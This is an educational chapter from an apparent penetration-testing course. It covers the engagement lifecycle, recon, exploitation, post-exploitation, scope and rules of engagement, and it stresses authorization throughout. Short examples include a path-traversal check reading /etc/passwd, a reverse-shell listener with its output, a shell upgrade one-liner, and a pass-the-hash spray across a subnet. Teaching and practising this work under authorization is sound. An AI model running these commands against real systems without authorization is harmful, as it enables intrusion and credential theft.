






This is Chapter 1 of the Penetration Testing series — Notebook 9. The Security Foundations notebook closed by having you build an isolated lab with an attacker box, a vulnerable target, and a snapshot workflow. You now have somewhere to practise. This chapter gives you the thing that turns practising into *testing*: a repeatable methodology and a lifecycle that a professional follows on every engagement, from the first email to the retest months later.

Almost everyone learns offensive security backwards. They collect tools — Nmap, Burp, sqlmap, Metasploit, `nxc` — and start firing them at boxes, and for a while it works, because a CTF box is designed to fall to exactly one path. Real engagements are not designed to fall. There is a real network, a real client paying real money, a real contract with real legal boundaries, and a real deadline. Without a methodology you will scan the wrong hosts, miss the finding that mattered, blow your time budget on a dead end, and hand over a report that no one can act on. Methodology is what separates a penetration tester from someone who owns Kali.

This chapter builds the map. We start with what a penetration test *is* and how it differs from a vulnerability scan, a red-team op, and a bug-bounty hunt — distinctions that decide what you are even allowed to do. Then we walk the full engagement lifecycle phase by phase, name the formal methodologies that codify it, work through the box-model and rules-of-engagement decisions that scope the work, run a complete mock engagement end to end with real commands and real note-taking, and finish on the deliverable that the client actually paid for: the report. Every later chapter — recon, scanning, exploitation, privilege escalation, Active Directory, web — is a *phase* inside this lifecycle. Learn the frame first and everything else has a place to hang.

---

## Part 1: What a Penetration Test Actually Is

A **penetration test** is an *authorized*, *scoped*, *goal-oriented* simulation of an attack against a system, performed to find and demonstrate exploitable security weaknesses so the owner can fix them before a real attacker finds them. Every word in that sentence is load-bearing, so take them one at a time.

- **Authorized.** You have explicit, written permission from someone with the authority to grant it. Without it, the exact same keystrokes are a felony under laws like the U.S. Computer Fraud and Abuse Act (CFAA), the UK Computer Misuse Act 1990, India's IT Act §66, or their equivalents. Authorization is not a formality you get around to — it is the single thing that makes the work legal, and Chapter 2 is devoted entirely to it.
- **Scoped.** The permission covers *specific* targets — named IP ranges, domains, applications, accounts — and *excludes* everything else. Scope is a fence. Stepping outside it, even by accident, is both a contract breach and, potentially, unauthorized access.
- **Goal-oriented.** A test has an objective: "can an external attacker reach the customer database?", "can a low-privileged employee become domain admin?", "is the payment flow exploitable?". The goal shapes what you do; you are not just cataloguing every weakness, you are answering a question.
- **Simulation of an attack.** You use the tactics, techniques, and tools a real adversary would — but under control, with a safety net, stopping short of actual damage.
- **So the owner can fix them.** The deliverable is not the shell. It is the *report* that lets the client remediate. A pentest that pops every box but produces an unusable report has failed at its actual job.

**The offensive-security spectrum.** "Pentest" gets used loosely. It sits on a spectrum of assessment types that differ in depth, stealth, and intent:

| Assessment type | Question it answers | Depth | Exploits weaknesses? | Adversary emulation / stealth |
|---|---|---|---|---|
| **Vulnerability scan** | "What known weaknesses are present?" | Shallow, automated | No — reports potential issues | None |
| **Vulnerability assessment** | "What weaknesses exist and how bad are they?" | Broad, some manual validation | Rarely | None |
| **Penetration test** | "What can an attacker actually do with these weaknesses?" | Deep on scoped targets | Yes — proves impact | Low; usually announced |
| **Red team engagement** | "Can we detect and respond to a determined adversary?" | Narrow, objective-driven | Yes, quietly | High — tests blue team, evades detection |
| **Purple team** | "Let's improve detection together, in real time" | Collaborative | Yes, openly | None — red and blue work side by side |
| **Bug bounty** | "What can a crowd of independent hunters find?" | Variable, continuous | Yes, per program rules | Low; scope set by policy |

The two most common confusions are *scan vs. pentest* and *pentest vs. red team*.

A **vulnerability scan** (Nessus, OpenVAS, Qualys) fingerprints services and matches them against a database of known CVEs. It is fast, cheap, and repeatable, and it produces a lot of "potential" findings — many of them false positives. It never *proves* anything; it says "port 445 looks like it might be vulnerable to MS17-010." A **penetration test** takes that lead and answers the real question: *is it actually exploitable, and if so, what does an attacker gain?* A tester validates, chains, and demonstrates impact — turning "you have an outdated SMB service" into "I used it to get SYSTEM on your file server and read HR's salary spreadsheet." Impact is the product.

A **red team engagement** goes further in a different direction. It is not about *coverage* (find every hole) but about *emulation* (behave like a specific, determined adversary and see if the defenders notice). Red teams operate quietly over weeks, often with a narrow objective ("exfiltrate a file marked SECRET from the finance share"), and the client's SOC frequently does not know it is happening — because catching the red team *is the test*. A pentest optimises for finding many issues; a red team optimises for realism and testing the detection-and-response capability. This notebook teaches penetration testing; red-team-specific tradecraft (OPSEC, C2, evasion) is a later notebook, but the ATT&CK vocabulary we introduce here is shared by both.

> **Why the distinction matters commercially and legally:** clients buy the wrong thing constantly. A company that asks for a "pentest" but really needs a "vulnerability assessment" (broad coverage, compliance tick-box) will be unhappy if you spend three days deep-diving one app. A company that needs a red team but buys a loud, announced pentest learns nothing about their SOC. Part of your job in the pre-engagement phase is to figure out which of these they actually need and set expectations accordingly.

**Compliance drivers.** Much penetration testing is not bought because a company *wants* it — it is bought because a standard *requires* it. PCI DSS Requirement 11.4 mandates annual (and post-significant-change) penetration testing for anyone handling cardholder data. HIPAA, SOC 2, ISO 27001, and increasingly cyber-insurance underwriters all push testing. This matters to you because a *compliance-driven* engagement has different success criteria — the client needs a report that satisfies an auditor, with clear scope, methodology, and evidence — versus a *security-driven* engagement where the client genuinely wants to be broken into as hard as possible. Read the room.

---

## Part 2: The Engagement Lifecycle at a Glance

Every professional methodology, whatever it calls its phases, describes the same underlying arc. An engagement is a lifecycle with a clear beginning (paperwork), a technical middle (the actual hacking), and a definite end (report and retest). Skipping or rushing the non-technical phases is the single most common failure of new testers, who want to jump straight to Nmap.

Here is the lifecycle this notebook uses. Hold this diagram in your head — every later chapter fits into one of these boxes.



Two things to notice immediately. First, the arrows are not purely one-directional: real engagements **loop**. When post-exploitation gives you a new internal host, you drop back into scanning and enumeration *for that host*. When vulnerability analysis turns up nothing exploitable, you go back and recon harder. The lifecycle is a cycle, not a conveyor belt. Second, **reporting is a phase, not an afterthought.** The most experienced testers write the report *as they go*, because a finding you cannot reproduce or evidence three days later is a finding you cannot deliver.

A quick tour of each phase before we go deep on the individual ones:

1. **Pre-engagement** — everything before you touch a packet: scoping, rules of engagement, the contract, the authorization letter, emergency contacts, and setting up your note-taking. Gets its own detailed treatment in Part 5 and in Chapter 2.
2. **Reconnaissance** — gathering information about the target without (passive) and with (active) touching their infrastructure. Whole notebook chapters follow on OSINT, subdomain enumeration, and Google dorking.
3. **Scanning & enumeration** — turning "there is a host at 10.0.0.5" into "it runs SSH 8.9 on 22, Apache 2.4.52 on 80, and Samba 4.15 on 445, and here are its shares and users." Nmap, service probing, directory brute-forcing.
4. **Vulnerability analysis** — mapping what you found to weaknesses, separating real from false-positive, and *prioritising* by exploitability and impact.
5. **Exploitation** — turning a weakness into access. The glamorous part, and usually the smallest slice of the actual time budget.
6. **Post-exploitation** — what you do *after* the first shell: privilege escalation, lateral movement, data discovery, and (where authorised) persistence. This is where impact is proven.
7. **Reporting** — translating everything into a document the client can act on: executive summary, technical findings, risk ratings, evidence, remediation.
8. **Remediation & retest** — the client fixes; you verify. The loop that makes the whole exercise worth the money.

The rest of this chapter walks these in order, then formalises them against named industry methodologies, then runs a complete mock engagement so you see the whole arc executed once.

---

## Part 3: Phase Deep-Dive, Part A — Recon through Vulnerability Analysis

### Reconnaissance

Reconnaissance is information gathering, and it splits into two flavours defined entirely by whether your packets touch the target.

**Passive recon** collects information *without* interacting with the target's systems, using third-party sources: WHOIS records, DNS data via public resolvers, certificate transparency logs (crt.sh), search engines, LinkedIn and other social media, job postings (which leak the tech stack — "must know Fortinet and Okta" tells you exactly what to attack), code repositories, S3 buckets, and breach data. Because you never send a packet to the client, passive recon is essentially undetectable and, in most jurisdictions, legally low-risk (you are reading public data). It is where every engagement should start.

**Active recon** *does* touch the target: DNS zone transfer attempts against their nameservers, pinging hosts, hitting their web server to read headers, banner-grabbing. It is more informative and more detectable, and it is only in-scope once authorization is signed. The line between "active recon" and "scanning" is blurry and does not matter much; the line between "passive" and "active" matters enormously because it is the line between "leaves no trace on the client" and "shows up in their logs."



A concrete taste of passive recon, all of which touches *third parties*, never the client — so it is safe to run before the window even opens:

```bash
# WHOIS / registration data — who owns the domain, when it expires, contacts
whois example.com

# certificate transparency logs — subdomains leak in every TLS cert ever issued
curl -s 'https://crt.sh/?q=%25.example.com&output=json' | jq -r '.[].name_value' | sort -u

# passive subdomain aggregation (queries public sources, not the target)
subfinder -d example.com -silent
```

- `whois` queries the public registration database — it hands you registrant contacts, name servers, and the expiry date (an expired-soon domain is its own risk). `jq -r '.[].name_value'` extracts just the certificate subject names from crt.sh's JSON and `sort -u` de-duplicates them; certificate transparency is a goldmine because *every* public TLS certificate a company issues ends up in these logs, quietly listing internal-sounding subdomains like `vpn.`, `jira.`, `dev-admin.`. `subfinder -d <domain> -silent` aggregates dozens of passive sources into a clean subdomain list. None of these send a single packet to `example.com` itself — the client's logs stay empty.

> **Red team usage:** on stealthy engagements the passive/active boundary is a hard operational line — you exhaust passive sources completely before sending a single packet, because your goal is to build the attack without appearing in a log. **Blue team usage:** knowing what passive recon reveals about *your* organisation (exposed subdomains in cert logs, credentials in old commits, tech stack in job posts) is the defensive discipline called attack-surface management — you recon yourself first.

### Scanning & Enumeration

Scanning discovers what is alive and what is listening; enumeration extracts detail from each listening service. The distinction is depth. Scanning tells you "port 445 is open." Enumeration tells you "it is Samba 4.15.13 on Ubuntu, anonymous login is allowed, and there are shares named `backups$` and `finance`."

The core scanning workflow, which the Scanning chapter covers in full, is:

1. **Host discovery** — which addresses in scope are up. `nmap -sn 10.0.0.0/24` (ping sweep).
2. **Port scanning** — which TCP/UDP ports are open per host. `nmap -p- 10.0.0.5` (all 65535 TCP ports).
3. **Service/version detection** — what software and version sits behind each port. `nmap -sV`.
4. **Enumeration** — service-specific deep dives: SMB shares and users, HTTP directories and vhosts, SNMP community strings, DNS records, SMTP user enumeration.

Enumeration is where most beginners under-invest and most real footholds are found. The maxim in this field is **"enumeration is the key"** — the exploit you eventually use is almost always found by looking harder, not by trying a cleverer exploit. A directory brute-force that reveals `/backup.zip`, an SMB share readable by anonymous, an SNMP string of `public` — these are the paths in, and they come from thorough enumeration, not from a novel 0-day.

### Vulnerability Analysis

With services and versions catalogued, you map them to weaknesses. Sources: automated scanners (Nessus, OpenVAS, Nuclei), CVE databases matched to versions, misconfigurations you spotted during enum (default creds, anonymous access, verbose errors), and your own judgement about the application's logic.

The two disciplines that separate a professional here are **validation** and **prioritisation**.

- **Validation** — an automated scanner flags "Apache 2.4.49 — possibly vulnerable to CVE-2021-41773 path traversal." *Possibly* is not a finding. You confirm it: `curl --path-as-is 'http://target/cgi-bin/.%2e/.%2e/etc/passwd'` and see if `root:x:0:0` comes back. Reporting an unvalidated scanner hit as fact is how testers lose credibility.
- **Prioritisation** — you will find more issues than you have time to exploit. Rank them by *exploitability* (how likely is this to actually work) × *impact* (what does it get me). An unauthenticated RCE on an internet-facing box beats a self-XSS behind two logins every time. This is where risk-rating frameworks like CVSS come in — but treat CVSS base scores as a starting point, not gospel; a "medium" CVSS finding that gives domain admin in your specific environment is a critical finding.

| Weakness spotted in enum | How you validate it | If confirmed, what it likely gives |
|---|---|---|
| SMB anonymous access | `nxc smb <ip> -u '' -p '' --shares` | File read → creds/config → foothold |
| Outdated Apache/Struts/Exchange | Targeted PoC `curl`/exploit against the exact version | RCE → shell |
| Default/weak web-app creds | Manual login `admin:admin`, `admin:password` | Authenticated access → often admin panel |
| Exposed `.git` directory | `git-dumper` then read source | Source code, secrets, hardcoded creds |
| SNMP `public` community | `snmpwalk -v2c -c public <ip>` | Interface list, routes, sometimes creds |

### Threat Modeling — the phase PTES inserts before exploitation

Between "here are the weaknesses" and "let me exploit one," a mature methodology (PTES calls it a distinct phase) does **threat modeling**: it steps back and asks *which* attacks matter for *this* client. A hospital cares most about ransomware and availability; a fintech about integrity and fraud; a defence contractor about a nation-state exfiltrating IP. Threat modeling turns a flat list of findings into a prioritised attack narrative aimed at the assets and adversaries the client actually fears.

Practically, you sketch — even informally — three things:

- **The crown jewels.** What data or system, if compromised, is a genuine business emergency? (The customer PII store, the code-signing key, the domain controller, the payment processor.) Your exploitation should *aim* at reaching these, because "we reached the crown jewel" is the finding executives act on.
- **The relevant adversary.** An opportunistic ransomware crew behaves differently from a targeted APT. The client's threat profile decides whether you emphasise loud, broad compromise (ransomware-style) or quiet, targeted access (APT-style).
- **The likely attack paths.** Chain the findings: "internet-facing web app → foothold → reused creds → internal file server → domain admin." A single medium-severity finding on the path to the crown jewels outranks a high-severity finding that leads nowhere.

This is also where lightweight frameworks earn their place. **STRIDE** (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) is a checklist for reasoning about what can go wrong per component; **attack trees** graph the paths to a goal. You do not need heavyweight modeling on every engagement, but a five-minute crown-jewels-and-paths sketch before you start exploiting is what keeps a test *goal-oriented* instead of a random tour of every open port.

---

## Part 4: Phase Deep-Dive, Part B — Exploitation through Retest

### Exploitation

Exploitation turns a validated weakness into access — a shell, a session, a set of credentials, a database dump. It is the phase everyone imagines when they hear "hacking," and it is usually the *shortest* part of a real engagement, because if recon and enumeration were done well, the exploit is often a single well-aimed action.

The professional principles that matter here:

- **Least-damage first.** Prefer the exploit that is reliable and non-destructive. A memory-corruption exploit that might crash a production service is a last resort; a default-credential login that gets you the same access is strictly better. On production systems, *never* run an exploit you have not vetted for stability — a crashed database on a client's live system is a career-limiting move.
- **One change at a time, and write it down.** Note the exact command, target, timestamp, and result *before* you move on. When the client asks "what did you do at 14:32 that coincided with our alert?", you need an answer.
- **Get a stable foothold, then stop and think.** The first shell is often fragile (a reverse shell in a limited context). Stabilise it (`python3 -c 'import pty;pty.spawn("/bin/bash")'`, upgrade to a proper TTY) before you do anything else, because losing a hard-won shell to a dropped connection wastes real time.

> **Ethics/safety anchor:** exploitation is where the "authorized simulation" framing is tested. You are demonstrating that a weakness is real, not causing harm. You take the screenshot that proves database access; you do *not* exfiltrate the actual customer PII. You prove you could deploy ransomware; you do not deploy it. The line is "demonstrate impact without inflicting it," and it is written into the rules of engagement.

**Shell types you will land on, and why it matters.** "Getting a shell" is not one thing — the *kind* of shell you get dictates your next move, and knowing the taxonomy up front saves flailing:

| Shell type | How you get it | Property | First action |
|---|---|---|---|
| **Reverse shell** | Target connects *back* to your listener (`nc -lvnp 4444`) | Beats inbound firewalls; target-initiated | Catch it, then upgrade the TTY |
| **Bind shell** | Target opens a listener; *you* connect in | Fails if inbound is firewalled (common) | Rarely usable on modern perimeters |
| **Web shell** | You upload a script (`.php`/`.aspx`) the web server runs | Survives as long as the file does; runs as the web user | Use it to launch a reverse shell |
| **Interactive session** | Framework agent (Meterpreter, Sliver) | Rich features, in-memory | Use built-ins; noisier to EDR |

A canonical reverse-shell catch, which the Exploitation chapter details, looks like this on the attacker side:

```bash
# attacker: start a listener BEFORE triggering the payload
rlwrap nc -lvnp 4444
# -l listen, -v verbose, -n no DNS, -p 4444 port; rlwrap adds arrow-key/history support
```

```
listening on [any] 4444 ...
connect to [10.0.0.10] from (UNKNOWN) [10.0.0.5] 51234
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Landing as `www-data` (a low-privileged web-server account), not root — which is exactly why *post-exploitation* and privilege escalation, not the initial shell, are where most engagement time and impact live.

### Post-Exploitation

The first shell is rarely the goal. Post-exploitation is where impact is actually proven, and it has four sub-activities:



- **Privilege escalation** — going from the low-privileged account you landed as (e.g. `www-data`, a normal domain user) to root / SYSTEM / Domain Admin. Local misconfigurations, kernel exploits, SUID binaries, weak service permissions, credential reuse. Whole chapters follow on Linux and Windows privesc.
- **Lateral movement** — using access on one host to reach others: reusing dumped credentials, pivoting through the compromised box to internal networks the attacker box cannot reach directly. Each new host loops you back into scanning and enumeration.
- **Data discovery / looting** — finding the things that prove impact: credential stores, config files with secrets, the actual sensitive data the engagement was scoped to protect. This is where "I got a shell" becomes "I got a shell and reached the crown-jewel database, here is a redacted screenshot."
- **Persistence** — establishing a way back in (a new account, a scheduled task, an SSH key). **Only if the ROE authorises it**, and always documented so the client can remove it. On many pentests persistence is out of scope; on red team ops it is central.

A concrete taste of how *lateral movement* loops you back into the earlier phases: say your first foothold yields a credential — a password hash pulled from memory, or a reused local-admin password. You do not stop; you spray that credential across the network to find where else it works, and each hit is a new host to enumerate:

```bash
# check where a captured hash is valid across a subnet (pass-the-hash)
nxc smb 10.0.0.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

```
SMB  10.0.0.5   445  FILESERVER  [+] CORP\administrator (Pwn3d!)
SMB  10.0.0.12  445  DBSERVER    [+] CORP\administrator (Pwn3d!)
SMB  10.0.0.20  445  WKSTN-04    [-] CORP\administrator STATUS_LOGON_FAILURE
```

`-H <LM:NT>` supplies an NTLM **hash** instead of a plaintext password — the "pass-the-hash" technique, ATT&CK **T1550.002**, exploiting that Windows authenticates with the hash directly. `Pwn3d!` marks hosts where the credential grants admin. Two new admin-accessible hosts (`FILESERVER`, `DBSERVER`) just appeared — and each drops you straight back to **scanning & enumeration** for that box. This is the lifecycle's loop made real: one credential in post-exploitation spawns two fresh enumeration targets, and the engagement expands until you reach the crown jewels or exhaust the paths.

**Cleanup** belongs here too. Any files you uploaded, accounts you created, and changes you made must be catalogued and, where the ROE requires, removed at the end. You leave the environment as you found it, and you tell the client exactly what you touched.

### Reporting

The report is the deliverable — the only artefact the client keeps. Its full mechanics get Part 8, but structurally it exists to serve two very different audiences at once: **executives** who need to understand business risk and decide on budget, and **engineers** who need enough technical detail to reproduce and fix each issue. A good report is layered so both can find what they need.

### Remediation & Retest

After delivery, the client remediates. A professional engagement includes (or offers) a **retest**: you re-verify each finding to confirm the fix actually worked — because "we patched it" and "it is actually fixed" are different claims, and a botched fix (patched the symptom, not the cause) is common. The retest closes the loop and is often what the client values most, because it is the proof they can show *their* auditors and board.

A clean retest re-runs the *exact* reproduction steps you recorded in the original finding and marks each one **Fixed**, **Partially Fixed**, or **Not Fixed** — which is only possible because you wrote reproducible steps the first time (another reason for the note-taking discipline in Part 10). Common retest outcomes worth flagging: the client patched the reported host but not three identical siblings you also noted; they fixed the symptom (blocked one payload) but not the cause (the injection is still there behind a filter); or the fix introduced a *new* issue. The retest is where your report stops being a document and becomes measurable risk reduction — the number the client actually reports upward.

---

## Part 5: Pre-Engagement — Scope, Rules of Engagement & Authorization

We deliberately doubled back to the *first* phase, because it is the one beginners skip and the one that most often turns a test into a lawsuit. Pre-engagement is paperwork, and paperwork is what makes the hacking legal.

### Scope

The **scope** defines exactly what is in and out of bounds. It is negotiated, written down, and signed. A well-defined scope answers:

- **Targets** — which IP ranges, domains, subdomains, applications, and accounts. Explicitly listed, ideally with the *out-of-scope* list too (that shared cloud tenant, that third-party SaaS the client does not own — attacking a system the client does not control is attacking an innocent third party, no matter what the client says).
- **Assessment type** — external network, internal network, web application, wireless, social engineering, physical, cloud config review. Each is a different engagement.
- **Depth** — is exploitation permitted, or is this "identify and validate but do not exploit"? Is post-exploitation / lateral movement / privesc allowed, or does the client want you to stop at first foothold?
- **Box model** — black, grey, or white box (Part 6).
- **Constraints** — no DoS testing, no social engineering of named individuals, no testing outside business hours, no touching the production payment processor.

> **The out-of-scope trap:** the most dangerous scoping mistake is a target you *think* is in scope but the client does not actually own. A subdomain that resolves to a third-party host, a cloud IP that belongs to the provider not the tenant, a domain the client let expire. Verify ownership before you touch anything. "The client told me to" is not a legal defence against attacking someone else's system.

### The scoping questionnaire — how scope actually gets built

Scope does not appear fully formed; you *extract* it from the client with questions, and asking the right ones is a professional skill. The pre-engagement call runs through a checklist like this, and the answers become the SOW and ROE:

- **What are we testing, and what is it worth to you?** (Identifies crown jewels and steers effort.)
- **How many live hosts / IP addresses / applications are in scope?** (Sizing — this sets the price and the days. A "500 IPs" answer is a very different engagement from "one web app.")
- **Do you own every asset in that range?** (The ownership check — surfaces the shared-tenant / third-party trap before it becomes a crime.)
- **Is exploitation authorised, or identify-and-validate only? Post-exploitation? Persistence?** (Depth.)
- **Black, grey, or white box — and will you provide credentials/docs?** (Knowledge model.)
- **Are your defenders to be told (announced) or not (unannounced)?** (Awareness model.)
- **Any fragile systems, maintenance windows, or absolute no-go actions (DoS, prod payment, specific hosts)?** (Constraints that keep you from causing an outage.)
- **Who are the 24/7 emergency contacts, both sides?** (The number you call when something breaks.)

The commonest scoping failure is *under-sizing*: the client says "just test our website," you agree a three-day price, and on day one you find the "website" is forty subdomains, three APIs, and a customer portal. Scope creep like this is why the SOW pins down concrete counts (IPs, apps, endpoints) rather than vague nouns — you are protecting both the client's budget and your own ability to do a thorough job in the time sold.

### Rules of Engagement (ROE)

The **ROE** is the operational contract layered on top of scope. Where scope says *what*, ROE says *how, when, and under what conditions*. A solid ROE covers:

| ROE element | What it specifies | Why it matters |
|---|---|---|
| **Testing window** | Dates and hours testing is permitted | Avoids business-hours disruption; scopes liability |
| **Permitted techniques** | Exploitation yes/no, DoS no, social eng scope, phishing yes/no | Some techniques carry real risk to production |
| **Handling sensitive data** | Prove access, do not exfiltrate; redact PII in reports | Legal and privacy exposure |
| **Emergency contacts** | Named people + phone numbers, both sides, 24/7 | Something *will* break; you need to reach someone fast |
| **Evidence handling** | How findings/screenshots are stored, encrypted, and destroyed | Client data on your laptop is client data |
| **"Stop" conditions** | What triggers an immediate halt (e.g. you find evidence of a *real* prior breach) | Some discoveries change everything |
| **Deconfliction** | How the client's SOC distinguishes you from a real attacker | Stops a real incident-response fire drill |

The single most operationally important line in any ROE is the **emergency contact and the stop condition**. On a real internal engagement you *will* eventually do something that has an unexpected effect — a scan that tips over a fragile legacy service, an exploit that hangs a process. When that happens you need to (a) stop, and (b) reach a human on the client side immediately. Testers who cannot do this turn a small hiccup into a major outage.

